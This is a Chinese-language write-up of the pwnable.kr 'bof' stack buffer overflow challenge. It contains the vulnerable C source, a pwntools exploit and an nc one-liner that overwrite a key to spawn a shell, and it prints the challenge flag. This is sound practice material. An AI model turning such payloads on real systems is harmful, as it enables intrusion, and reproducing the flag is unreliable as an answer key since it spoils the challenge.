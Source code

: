 ```yaml
---
title: "pwnable.kr bof"
Categories:
    - Pwn
tag:
    - Pwn
    - Writeup
    - Pwnable.kr
---
```


> Nana told me that buffer overflow is one of the most common software vulnerability.  
> Is that true?  
>
> Download : <http://pwnable.kr/bin/bof>  
> Download : <http://pwnable.kr/bin/bof.c>  
>
> Running at : nc pwnable.kr 9000

<!-- more -->

先看一下给的源码

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);   // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

大概的思路就是向overflowme进行输入时溢出将key覆盖成0xcafebabe就行了。

用ida观察，我们可以知道 key(a1)在 ebp+8h, overflowme(s)在ebp-2Ch,之间有52字节，最后再加上需要覆盖的4字节就OK了。

![img_1](/images/posts/pwnable.kr/bof_1.png)

下面给出exp

```python
from pwn import *

# p = process("bof")
p = remote('pwnable.kr',9000)

payload = 'a'*52 + p32(0xcafebabe)

p.sendline(payload)

p.interactive()
```

网上还看见一个更简单的`(python -c "print 'a'*52 + '\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000` 。

这里大家一定疑惑加`cat`干嘛。这里如果我们不加上cat那么nc在传完python的输出后就完成了这条命令，会直接结束这次会话。我们加上cat后nc的这个会话会永不结束，直到用户输入Ctrl+C。然后cat又比较特殊，它可以将用户输入原封不动返回并重定向给了nc。

flag: daddy, I just pwned a buFFer :)